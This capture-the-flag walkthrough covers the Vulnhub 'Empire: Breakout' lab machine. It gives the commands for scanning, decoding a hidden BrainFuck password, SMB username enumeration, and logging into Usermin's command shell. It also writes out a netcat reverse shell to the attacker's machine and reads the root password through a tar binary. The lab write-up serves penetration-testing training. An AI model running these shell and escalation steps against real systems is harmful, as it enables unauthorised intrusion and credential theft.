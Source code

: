 Vulnhub - Empire: Breakout Walkthrough <br>
<br>
First find the IP Address of the machine <br>
$ sudo arp-scan -l <br>
<br>
After getting the IP address of the machine, do a nmap scan <br>
$ nmap -sC -sV -A -p- <ip_address_vulnhub_machine> <br>
you will find 5 ports open - 80, 139, 445, 10000, 20000 <br>
Take a look at the website http://<ip_address_vulnhub_machine> <br>
Here you will find an Apache2 Debian Default page <br>
now in this page, check the source code <br>
at the end you will find an encoded text, you can decode it to the programming language BrainFuck, and get the output <br>
now you go to http://<ip_address_vulnhub_machine>:20000, this page requires a username and password <br>
for this you can enumerate the username using 'enum4linux' <br>
$ enum4linux -a <ip_address_vulnhub_machine> <br>
here you will get the username 'cyber' <br>, and use the password that was decoded earlier <br>
now after the login, go to Usermin -> login -> command shell <br>
here you can put the commands. <br>
you can easily get the user flag and the tar file <br>
now to spawn a shell, we will use netcat <br>
<br>
On Kali Machine <br> 
$ nc -lvnp 1234 <br>
On Vulnhub Hosted Webpage <br>
> nc <ip_kali_VM> 1234 -e /bin/bash <br>
<br>
you will get the shell on your kali terminal then <br>
to spawn a shell <br>
use > python3 -c 'import pty; pty.spawn("/bin/bash")' <br>
$ pwd <br>
$ cd /var -> go to backups folder and you will find the password file, but you will not have the permission to view the file <br>
copy the file to /tmp and then use <br>
$ /home/cyber/tar -cvf file.tar /var/backups <br>
now when the file is copied in the /tmp folder you can decompress the file <br>
$ tar -xvf file.tar <br>
now you can read the contents of the file and get the contents, which is the root password <br>
use it to login to the root <br>
$ su - root <br>
while in root you can easily get the root flag <br>
